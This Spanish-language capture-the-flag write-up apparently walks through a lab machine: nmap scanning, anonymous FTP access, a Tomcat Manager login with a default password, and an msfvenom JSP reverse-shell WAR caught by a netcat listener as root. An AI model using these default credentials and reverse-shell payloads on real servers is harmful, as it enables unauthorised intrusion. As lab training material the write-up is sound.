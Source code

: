 # -Pn

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
```

Como tenemos abierto los puertos 21 y 8080, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p21,8080 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```bash
PORT   STATE  SERVICE REASON         VERSION
21/tcp open   ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp closed http    reset ttl 64
```
Vemos que tenemos el usuario Anonymous en el ftp abierto, así que vamos a conectarnos.
```bash
ftp 172.17.0.2
```
```
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:tbrux): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||15473|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
```
Encontrammos un archivo **tomcat.txt**, lo descargamos a nuestra máquina y revisamos que información contiene.
```bash
get tomcat.txt
```
```
tp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||38522|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |***********************************************************************************************************************************************************************************************|    74        1.10 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (227.25 KiB/s)
ftp> exit
221 Goodbye.
❯ cat tomcat.txt
Hello tomcat, can you configure the tomcat server? I lost the password...
```
Es un mensaje al usuario **tomcat** así que ya solo faltaría encontrar el password. Vamos a ver el puerto 8080 que tenemos.

## Explotación.
Pinchamos en el botón **Manager APP**. Probamos una de las contraseñas quet tiene tomcat por defecto para el usuario **tomcat** y estamos dentro del panel.
```
tomcat:s3cr3t
```
En la página vemos la opciones y vamos hasta **WAR file to deploy** y desde ahí podemos subir un archivo malicioso con una reverse shell creada con msfvenom.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
```
Una vez creado, nos aparece un listado de archivos y rutas. Nos ponemos en escucha por el puerto 443.
```bash
nc -lvnp 443
```
Hacemos click en el archivo **revshell** que hemos subido y establecemos una reverse shell con la máquina victima con privilegios de root.
```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59678
whoami
root
```
